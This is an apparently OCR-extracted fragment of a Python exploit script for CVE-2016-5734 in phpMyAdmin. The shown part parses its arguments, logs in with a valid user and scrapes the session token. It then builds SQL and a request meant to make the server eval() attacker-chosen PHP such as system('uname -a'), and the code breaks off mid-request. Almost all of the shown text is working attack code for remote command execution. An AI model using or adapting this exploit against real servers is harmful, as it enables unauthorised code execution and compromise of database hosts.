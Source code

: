 ```python
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
"""

import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
```